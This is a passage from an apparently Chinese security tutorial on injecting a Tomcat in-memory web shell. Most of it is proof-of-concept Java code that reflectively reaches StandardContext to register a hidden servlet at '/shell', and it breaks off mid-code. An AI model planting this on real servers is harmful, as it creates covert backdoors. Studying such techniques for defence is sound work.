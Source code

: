 创建wrapper并添加到StandarContext中，然后设置路由绑定

```
Wrapper wrapper = standardContext.createWrapper();
 wrapper.setServlet(servlet);
 wrapper.setName(name);
// wrapper.setServletClass(servlet.getClass().getName());
 wrapper.setLoadOnStartup(1);      //设置启动优先级
 standardContext.addChild(wrapper);
 standardContext.addServletMappingDecoded("/shell",name);
```

完整的poc

```
package servlet;

import org.apache.catalina.Wrapper;
import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.StandardContext;

import javax.servlet.*;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.lang.reflect.Field;

@WebServlet("/addServlet")
public class AddTomcatServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException{
        this.doPost(req,resp);
    }

    @Override
    protected void doPost(HttpServletRequest req,HttpServletResponse resp) throws ServletException,IOException{
        try{
            String name = "DawnT0wn";
            ServletContext servletContext = req.getServletContext();
            if (servletContext.getServletRegistration(name) == null) {
                StandardContext standardContext = null;

                while (standardContext == null) {

                    Field field = servletContext.getClass().getDeclaredField("context");
                    field.setAccessible(true);
                    Object object = field.get(servletContext);

                    if (object instanceof ServletContext) {
                        servletContext = (ServletContext) object;
                    } else if (object instanceof StandardContext) {
                        standardContext = (StandardContext) object;
                    }

                }
//                Field field = servletContext.getClass().getDeclaredField("context");
//                field.setAccessible(true);
```